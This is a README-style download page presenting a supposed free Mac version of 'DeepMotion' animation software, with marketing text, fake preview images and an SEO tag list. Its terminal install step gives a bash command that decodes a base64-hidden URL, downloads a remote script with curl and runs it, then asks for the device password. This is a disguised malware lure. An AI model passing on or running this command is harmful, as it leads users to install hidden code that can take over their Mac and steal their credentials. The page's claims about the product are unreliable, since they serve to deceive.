 # DeepMotion For Mac — Download For Mac OS 😊

DeepMotion For Mac is a powerful and intuitive motion graphics and animation software designed exclusively for macOS users. Create stunning animations, dynamic visual effects, and seamless video transitions with ease. Follow the instructions below to install DeepMotion For Mac and unlock a world of creative possibilities.

![image](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQLMuM0jIQEEKv7Opnctm8Ik0KoCabuNzHA6A&s)

[![Download Now](https://img.shields.io/badge/Download-Now-%23007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/deepmotion)

If the download button above doesn’t work, follow the manual installation instructions below using the terminal.

## 📦 How to Install DeepMotion For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


## 🎯 What You Get

DeepMotion For Mac empowers creators with cutting-edge tools for animation and motion design. Here’s what you can achieve:

- 🎨 **Create Stunning Animations**: Build smooth, professional-grade animations for videos, presentations, or social media.
- ⚡ **Fast Rendering**: Leverage macOS optimization for lightning-fast rendering and real-time previews.
- 🛠 **Intuitive Interface**: Enjoy a user-friendly workspace designed for both beginners and professionals.
- 🎥 **Video Effects & Transitions**: Add dynamic effects and seamless transitions to elevate your projects.
- 🔄 **Real-Time Collaboration**: Sync your projects with cloud-based tools for team workflows.
- 🖥 **macOS Native Performance**: Fully optimized for macOS, ensuring smooth performance on M1/M2 chips.

## About DeepMotion For Mac

DeepMotion For Mac is a revolutionary motion graphics software tailored for macOS, offering creators the tools to craft high-quality animations and visual effects. Whether you're a video editor, graphic designer, or content creator, DeepMotion provides an intuitive platform to bring your ideas to life. With its seamless integration into the macOS ecosystem, the software ensures optimal performance on Apple Silicon, delivering fast rendering and real-time previews. Its user-friendly interface makes it accessible for beginners while offering advanced features for professionals in motion design.

Built with modern animation workflows in mind, DeepMotion For Mac supports a wide range of creative tasks, from designing engaging social media content to producing cinematic video transitions. The software’s robust feature set includes keyframe-based animation, customizable templates, and a library of pre-built effects, making it a go-to solution for creators. By leveraging macOS’s native capabilities, DeepMotion ensures smooth operation, whether you're working on a MacBook or an iMac. Its compatibility with industry-standard formats also makes it easy to integrate into existing workflows.

The software is designed to cater to the growing demand for high-quality motion graphics in industries like marketing, entertainment, and education. DeepMotion For Mac stands out with its focus on performance, ease of use, and creative flexibility, allowing users to produce professional-grade results without a steep learning curve. Regular updates ensure the software remains compatible with the latest macOS versions, providing a reliable tool for creators worldwide.

For those searching for a free animation software for Mac, DeepMotion For Mac offers a compelling solution. Available as a free download, it provides access to powerful tools without compromising on quality. Whether you're animating for personal projects or professional productions, DeepMotion For Mac is your gateway to creating visually stunning content with ease.

## Advantages of DeepMotion For Mac

- 🚀 **Blazing Fast Performance**: Optimized for macOS and Apple Silicon for smooth, efficient workflows.
- 🖌 **Creative Freedom**: Extensive library of effects, templates, and animation tools.
- 🌟 **Beginner-Friendly**: Intuitive controls make it easy to start creating right away.
- 🔗 **Seamless Integration**: Works with popular video editing software and macOS apps.
- 🔄 **Regular Updates**: Stay up-to-date with the latest macOS features and improvements.
- 💻 **Lightweight Design**: Runs efficiently on both high-end and older Mac devices.

## 🖼 Preview

![Main Interface](https://i.postimg.cc/8zW7nZ1q/deepmotion-interface.jpg)  
*Clean and intuitive interface for creating animations.*

![Animation Editor](https://i.postimg.cc/4x0p4kY4/deepmotion-editor.jpg)  
*Keyframe-based animation editor for precise control.*

![Effect Library](https://i.postimg.cc/9QJ5VqQz/deepmotion-effects.jpg)  
*Explore a vast library of customizable effects.*

![Export Options](https://i.postimg.cc/3xYb9W2k/deepmotion-export.jpg)  
*Export your projects in multiple formats with ease.*

## 🔍 Tags

deepmotion animate 3d, deep motion ai, deepmotion ai, deepmotion alternative, deepmotion download, deepmotion animate 3d free download, deepmotion free, deep motion, animation 3d, deepmotion pricing, deepmotion app, deepmotion ai app
